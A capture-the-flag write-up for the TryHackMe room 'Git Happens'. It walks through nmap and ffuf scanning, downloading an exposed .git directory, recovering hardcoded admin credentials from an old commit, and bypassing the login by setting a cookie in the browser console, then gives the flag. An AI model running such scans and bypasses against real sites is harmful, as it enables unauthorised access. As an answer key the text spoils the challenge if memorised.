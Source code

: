 # Solution

## URL
- [Git Happens](https://tryhackme.com/room/githappens)

## Steps

### Enumerate:
1. Run a full NMAP port scan: `sudo nmap -v -sS -p- 10.10.48.67 | tee nmap-scan.txt`.
2. A website is running on port 80, fuzz the directories/files: `sudo ffuf -u http://10.10.48.67/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -mc 200,301,302,403 -fs 6890 -v | tee ffuf-dir-fuzz.txt`.
3. `/robots.txt` and `/sitemap.xml` did not reveal anything.
4. Checked `/.git` and got the git directory. Downloading that `wget --recursive --no-parent http://10.10.101.120/.git/`

### Git enumeration:
1. We got a new directory. `cd` into that directory.
2. Running `git status` we can see some deleted files, these are just files we were not able to download, so let's try to restore that by `git restore .`.
3. Now we can check logs by `git log`. In this we can see there is a commit with the comment `Obfuscated the source code`, so if we view the commit before this we might get the password?
4. So let's checkout that commit `git checkout 395e087334d613d5e423cdf8f7be27196a360459`. Checking the index.html page, we got the credentials: `admin:Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!`.

### Access
1. Trying to login with this is giving some error in console, but we know from the source code that, after giving the correct cerdentials, it was just setting a cookie `login=1` and redirecting us to `/dashboard.html`. So let's do that ourselves.
2. Open the console in dev tools and enter `document.cookie = "login=1";` and then `window.location.href = "/dashboard.html";`.
3. We logged in! And got the message: `Awesome! Use the password you input as the flag!`.

### Task 1:
#### Find the Super Secret Password
1. The answer is `Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!`.